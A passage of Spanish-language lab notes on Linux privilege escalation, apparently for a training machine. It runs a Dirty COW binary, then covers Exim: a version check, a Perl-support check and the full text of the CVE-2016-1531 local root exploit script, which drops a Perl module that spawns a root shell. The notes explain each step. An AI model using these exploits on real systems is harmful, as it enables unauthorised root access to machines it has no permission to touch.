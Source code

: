 **Para ejecutar**: 
```bash
./dirtyc0w
```
 
 Una vez ejecutado, **para escalar privilegios** solo hace falta escribir el comando `paswd`
 **🎉 Escalada conseguida**


## ✉️Exim
>[!abstract] Definición:
>**Exim** es un servidor de correo (MTA) conocido por haber tenido vulnerabilidades de escalada y ejecución remota, por eso se busca en auditorías de seguridad.

Para conocer la versión instalada en la máquina víctima ejecutamos el comando
```bash
dpkg -l | grep exim
```
🔹 **Donde**:
- `dpkg` es el sistema de gestión de paquetes base
- `-l` ista todos los paquetes instalados
- `grep` es una herramienta para hacer búsquedas en texto
- `exim` es lo que nos interesa buscar

A partir de esto, buscamos en **exploit database** una vulnerabilidad que pueda aplicar. En este caso nos interesa este https://www.exploit-db.com/exploits/39549. 

Pero **OJO**,  al leer el exploit, nos indica que es **indispensable** que la versión de exim esté compilada con soporte para `Perl`, de lo contrario, no funcionará.

**¿Cómo saber si podemos aplicarlo?**

Según el documento, podemos revisarlo con el siguiente comando
```bash
exim -bV -v | grep -i Perl
```
🔹 **Donde**
- `-bV` muestra información de compilación y configuración de Exim
- `-v` (modo verbose) añade más detalle a la salida del `-bV`
- `grep -i Perl` Filtra la salida para mostrar **solo las líneas que contengan la palabra "Perl"**, sin importar mayúsculas o minúsculas (`-i` = "ignore case").

La salida debe mostrar algo como `Support for: crypteq iconv() Perl DKIM PRDR OCSP`, esto significa que si tiene soporte para Perl.

**💪 MANOS A LA OBRA**

En este caso, utilizamos el script que viene en la máquina, en `/home/user/tools/exim`, el cual contiene lo siguiente:
```bash
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system(/bin/sh);
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```
**¿Qué hace?**
1. Imprime en pantalla el texto `[ CVE-2016-1531 local root exploit` (Meramente informativo)
2. Usa `cat` para crear un archivo en `/tmp/root.pm`. Este archivo es un **módulo Perl**. 
3. El contenido que está escrito entre los delimitadores `<< EOF` y `EOF` será lo que se escribirá en el archivo creado en el punto anterior
4. La última línea **ejecuta exim con Perl embebido activado**
